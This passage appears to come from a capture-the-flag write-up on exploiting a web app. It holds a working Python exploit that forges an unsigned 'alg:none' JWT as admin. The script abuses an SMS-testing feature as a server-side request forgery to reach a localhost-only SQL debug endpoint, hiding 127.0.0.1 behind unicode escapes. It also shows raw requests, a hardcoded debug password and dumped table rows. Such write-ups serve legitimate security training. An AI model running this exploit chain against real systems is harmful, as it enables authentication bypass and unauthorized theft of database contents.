 ```python

passwords.close()
```

## SQL

POST http://167.99.94.114:31956/debug/sql/exec {"sql":"select * from enrollments;","password":"DEBUG_PASS"}

`Blocked: This endpoint is whitelisted to localhost only.`

POST http://167.99.94.114:31956/sms-settings {"verb":"POST","url":"http://127.0.0.1:30319/debug/sql/exec","params":"{\"sql\":\"select * from enrollments;\",\"password\":\"DEBUG_PASS\"}","headers":"Content-Type: application/json\nCookie: session=eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjY5OTg2ODQ0fQ.3k-DrKL7wY3T0QJ0N_6owMKRTevB1TLSXPeC5Rrit8k","resp_ok":"<status>ok</status>","resp_bad":"<status>error</status>"}

```python
from base64 import urlsafe_b64decode, urlsafe_b64encode
from urllib.request import urlopen, Request
from json import dumps

jwt = (urlsafe_b64encode(b'{"alg":"none","typ":"JWT"}').decode() + '.' + urlsafe_b64encode(b'{"username":"admin","iat":1669986844}').decode() + ".3k-DrKL7wY3T0QJ0N_6owMKRTevB1TLSXPeC5Rrit8k").replace("=", "")

response = urlopen(
    Request(
        "http://161.35.173.232:30925/api/sms/test",
        data=dumps(
            {
                "verb": "POST",
                "url": f"http://\u0031\u0032\u0037\u002e\u0030\u002e\u0030\u002e\u0031:1337/debug/sql/exec", # "http://167.99.94.114:31956/debug/sql/exec",
                "params": dumps({"sql": ".schema users","password": "CzliwZJkV60hpPJ"}),
                "headers": "Content-Type: application/json\r\nCookie: session=" + jwt,
                "resp_ok": "<status>ok</status>",
                "resp_bad": "<status>error</status>"
            }
        ).encode(), # .replace(b'127.0.0.1', b'\\u0031\\u0032\\u0037\\u002e\\u0030\\u002e\\u0030\\u002e\\u0031')
        headers={'Content-Type': 'application/json', 'Cookie': 'session=' + jwt},
        method='POST',
    )
)

print(response.read().decode())
```

`select * from enrollments;`

```
{"status":"success","result":"{\"sql\":\"select * from enrollments;\",\"output\":\"1,test,,,,,,de2d958f90bb82cda89c8e7fd371f3c0.docx\\n2,TheHedgehog,Sonic,\\\"06 06 06 06 06\\\",2022-12-01,male,\\\"I'm famous!\\\",\\n3,pipi,,,,,,\\n4,cat,,,,,,e3599c6cfd9f15e2df189cb33e9823bb.docx\\n\"}"}
```
